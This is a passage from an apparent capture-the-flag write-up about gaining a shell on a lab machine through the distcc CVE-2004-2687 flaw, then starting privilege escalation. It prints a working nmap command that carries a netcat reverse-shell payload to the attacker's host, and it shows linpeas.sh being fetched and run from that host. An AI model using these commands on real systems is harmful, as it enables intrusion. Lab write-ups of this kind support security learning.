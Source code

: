 ```
$nmap -Pn -p 3632 10.129.106.70 --script ./distcc-cve2004-2687.nse  --script-args="cmd='rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.86 4444 >/tmp/f'"
```
It works! I've got a shell:
```
sh-3.2$ ls /home
ftp
makis
service
user
sh-3.2$ ls /home/makis
user.txt
sh-3.2$ cat /home/makis/user.txt
3[...SNIP...]0
```
## Privilege escalation
I will run linpeas.sh to check if a vulnerability could help to escalate to root. First of all, I will run a Python HTTP server on a folder containing linpeas.sh:
```
$ls
linpeas.sh
$sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
Then, I can download it from the machine:
```
sh-3.2$ cd /tmp
sh-3.2$ wget http://10.10.14.86:8080/linpeas.sh
--13:09:21--  http://10.10.14.86:8080/linpeas.sh
           => `linpeas.sh'
Connecting to 10.10.14.86:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 848,400 (829K) [text/x-sh]

    0K .......... .......... .......... .......... ..........  6%  890.57 KB/s
   50K .......... .......... .......... .......... .......... 12%    2.52 MB/s
  100K .......... .......... .......... .......... .......... 18%    2.70 MB/s
  150K .......... .......... .......... .......... .......... 24%    3.94 MB/s
  200K .......... .......... .......... .......... .......... 30%    5.28 MB/s
  250K .......... .......... .......... .......... .......... 36%    4.21 MB/s
  300K .......... .......... .......... .......... .......... 42%   12.15 MB/s
  350K .......... .......... .......... .......... .......... 48%    8.89 MB/s
  400K .......... .......... .......... .......... .......... 54%    7.87 MB/s
  450K .......... .......... .......... .......... .......... 60%    5.54 MB/s
  500K .......... .......... .......... .......... .......... 66%    9.94 MB/s
  550K .......... .......... .......... .......... .......... 72%    6.69 MB/s
  600K .......... .......... .......... .......... .......... 78%    5.82 MB/s
  650K .......... .......... .......... .......... .......... 84%    9.86 MB/s
  700K .......... .......... .......... .......... .......... 90%    5.88 MB/s
  750K .......... .......... .......... .......... .......... 96%    7.16 MB/s
  800K .......... .......... ........                        100%    8.79 MB/s

13:09:21 (4.14 MB/s) - `linpeas.sh' saved [848400/848400]

sh-3.2$ chmod +x linpeas.sh
```
I can now run it with the user daemon:
```
sh-3.2$ ./linpeas.sh
```
Here is what I found interesting:
```
                      ╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
```